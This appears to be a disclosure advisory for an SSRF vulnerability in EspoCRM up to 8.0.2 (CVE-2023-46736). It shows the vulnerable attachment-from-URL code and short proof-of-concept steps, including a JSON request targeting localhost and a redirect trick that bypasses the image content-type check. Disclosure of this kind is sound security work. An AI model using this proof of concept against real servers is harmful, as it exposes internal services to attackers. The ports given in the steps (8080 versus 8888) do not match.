 ### EspoCRM <=8.0.2 SSRF

EspoCRM <=8.0.2 is vulnerable SSRF

Source: `Espo\Core\Api\Request::getParsedBody`

Sink: `curl_exec`

Code:

application/Espo/Tools/Attachment/Api/PostFromImageUrl.php

```
public function process(Request $request): Response
{
  $data = $request->getParsedBody();
  $url = $data->url ?? null;
  ...
  $attachment = $this->uploadUrlService->uploadImage($url, $fieldData);
 }
```

application/Espo/Tools/Attachment/UploadUrlService.php

```
public function uploadImage(string $url, FieldData $data): Attachment
{
  $this->getImageDataByUrl($url);
}

private function getImageDataByUrl(string $url): ?array {
  ...
  $opts[\CURLOPT_URL]  = $url;
  ...
  $ch = curl_init();
  curl_setopt_array($ch, $opts);
  $response = curl_exec($ch);
}
```

POC:

1. Listen on 8080 on server side

2. Send a post request to /api/v1/Attachment/fromImageUrl, with data 
   ``````
   {
   "url": "http://localhost:8888",
   "parentType": "Note",
    "field":  "attachments"
   }
   ``````

3. Receive a request on server side. 

4. To bypass content type check, redirect like https://ssrf.localdomain.pw/img-with-body/301-http-127.0.0.1:8888-.i.jpg can be used. Then retrieve the response back through /api/v1/Attachment/file/id endpoint

Status: CVE-2023-46736